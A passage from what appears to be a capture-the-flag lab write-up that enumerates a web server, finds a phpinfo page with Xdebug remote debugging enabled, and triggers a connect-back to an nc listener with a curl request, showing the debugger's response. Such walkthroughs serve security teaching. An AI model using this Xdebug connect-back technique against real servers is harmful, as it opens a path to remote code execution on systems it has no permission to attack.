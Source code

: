 I tried to add a route for the class-C network with PKI (192.168.254.0/24), but I still can’t ping it. I’ll note that one for later.

### Shell

#### Enumeration

Visiting 172.20.0.10 in Firefox shows a directory with no index and directory listing on:

![image-20210802170130377](https://0xdfimages.gitlab.io/img/image-20210802170130377.png)

`vpn/` is the same login form I found before. `info.php` leads to a PHP info page:

[![image-20210802170350528](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)

There’s a ton of info there, but one bit that jumps out as unusual, xdebug:

[![image-20210802170440009](https://0xdfimages.gitlab.io/img/image-20210802170440009.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210802170440009.png)

#### Getting Connection

[Xdebug](https://xdebug.org/) is a PHP extension designed to give developers feedback on their application. It is not meant to run in production. I actually played with this years ago on [HTB Olympus](/2018/09/22/htb-olympus.html#rce-through-xdebug). Most configurations limit connection for Xdebug to localhost, but an insecure configuration will allow for it to connect to any IP. In fact, I can look at the PHP info and see that remote debugging is enabled:

![image-20210802201427728](https://0xdfimages.gitlab.io/img/image-20210802201427728.png)

I can send a request to the server with the argument `XDEBUG_SESSION_START=[some name]` (or with that as a cookie), then the site will connect back to the IP connecting to it on TCP 9000. I can also use the `X-Forwarded-For` header to tell it to connect back to another host as well.

For example, I’ll start `nc` on tcp 9000, and run `curl 172.20.0.10/info.php?XDEBUG_SESSION_START=0xdf` to trigger the debugger. There’s a connection at `nc`:

```

oxdf@parrot$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 50964
489<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/info.php" language="PHP" xdebug:language_version="7.2.1-1ubuntu2" protocol_version="1.0" appid="50" idekey="0xdf"><engine version="2.6.0"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2018 by Derick Rethans]]></copyright></init>

```

There’s an Xdebug client that can be downloaded from [here](https://xdebug.org/docs/dbgpClient), but it isn’t great. I’ll run it, using `-p 9000` to listen on port 9000:
